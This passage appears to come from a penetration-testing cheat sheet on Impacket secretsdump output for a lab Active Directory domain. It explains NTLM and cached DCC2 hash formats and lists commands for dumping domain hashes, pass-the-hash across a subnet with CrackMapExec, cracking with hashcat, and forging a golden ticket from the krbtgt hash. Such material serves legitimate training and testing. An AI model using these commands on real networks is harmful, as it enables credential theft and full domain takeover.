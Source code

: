 #### Domain Credentials Format
```bash
# Format: DOMAIN\username:rid:lmhash:nthash
MARVEL.LOCAL\fcastle:1001:aad3b435b51404eeaad3b435b51404ee:e6f48c2526bd594441d3da372155f6f:::

# Machine accounts (end with $)
MARVEL.LOCAL\SPIDERMAN$:1103:aad3b435b51404eeaad3b435b51404ee:hash:::
```

#### Cached Credentials
```bash
# DCC2 format (domain cached credentials)
MARVEL.LOCAL/tstark:$DCC2$10240#tstark#c88e4ceb4c20c2bd024ce0cf4bd01530

# Format breakdown:
# - $DCC2$: Indicates cached credential type
# - 10240: Iteration count
# - tstark: Username
# - hash: The actual cached hash
```

### Integration with Other Tools

#### Using Dumped Hashes with CrackMapExec
```bash
# After secretsdump, use hashes with CME
secretsdump.py DOMAIN/user:pass@target -outputfile domain_hashes

# Extract NTLM hashes and use with CME
crackmapexec smb 192.168.1.0/24 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76
```

#### Hash Cracking with Hashcat
```bash
# Extract NTLM hashes for cracking
grep -E ":[0-9]+:aad3b435b51404eeaad3b435b51404ee:" secretsdump_output.txt | cut -d: -f4 > ntlm_hashes.txt

# Crack with hashcat
hashcat -m 1000 ntlm_hashes.txt rockyou.txt

# Crack DCC2 hashes
hashcat -m 2100 dcc2_hashes.txt rockyou.txt
```

#### Golden Ticket Creation
```bash
# Extract krbtgt hash from NTDS dump
grep krbtgt secretsdump_output.txt

# Use with ticketer.py for golden ticket
ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.local administrator
```
